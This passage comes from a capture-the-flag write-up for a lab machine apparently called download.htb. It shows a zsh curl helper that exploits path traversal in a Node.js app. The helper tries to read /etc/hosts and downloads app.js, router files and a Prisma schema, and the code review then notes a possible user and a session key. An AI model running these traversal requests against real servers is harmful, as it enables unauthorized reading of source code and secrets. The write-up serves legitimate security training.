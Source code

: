 
#### Manual Fuzzing

When trying to traverse to the filesystem root, NGINX reports a bad request likely because it is treating the file parameter as part of the web path and `/files/download/../../../`{:.filepath} exceeds the bounds of the web root. Since this is a NodeJS app though, we found the default `package.json`{:.filepath} via path traversal to the parent directory. The contents point to `../app.js`{:.filepath} as the main source file, so we began to download the source code.

```zsh
# Manually fuzz file path using helper function
download_get_file() {
    param=${1//\//%2F} # URL encode forward slashes
    curl -so- "http://download.htb/files/download/$param" ${@:2} # Send request
}
download_get_file "../../../../../../../etc/hosts" # Read /etc/hosts => 400 Bad Request
download_get_file "../package.json" # Node's package.json should exist => Success!

# Exploit path traversal to download source code
mkdir src # Make directory to store the application source
download_get_file "../app.js" | tee src/app.js # Download main => found a few sources

# Download additional sources imported from app.js
mkdir src/middleware src/routers # Make directory to store the additional sources
for file in package.json middleware/flash.js routers/{auth,files,home}.js
    do download_get_file "../$file" | tee src/$file
done
```
{:file="bryan@redteam ➤ zsh" .nolineno}


### Code Review

We began to search the NodeJS source for credentials, addtional vulnerabilities, or useful information. We first found a potential OS user named "wesley" in the `package.json`{:.filepath} file generated by the Node package manager. In addition, we noted a cryptographic key potentially used to verify user sessions. We also discovered that the application uses the [Prisma database client](https://www.prisma.io/docs/concepts/components/prisma-client) to simplify interaction with databases.

#### Prisma

According to the [documentation](https://www.prisma.io/docs/concepts/components/prisma-client/working-with-prismaclient/generating-prisma-client), Prisma client is generated from a user-defined database schema which is copied to `node_modules/.prisma/client/schema.prisma`{:.filepath} on generation. We downloaded the schema in search of credentials, but instead found information regarding the database solution and some structure definitions.

```zsh
download_get_file "../node_modules/.prisma/client/schema.prisma"
```
{:file="bryan@redteam ➤ zsh" .nolineno}

```text
datasource db {
  provider = "postgresql"
  url      = env("DATABASE_URL")
}

model User {
  id       Int    @id @default(autoincrement())
  username String @unique
  password String
  files    File[]
}

model File {
  id         String   @id @default(uuid())
  name       String
```
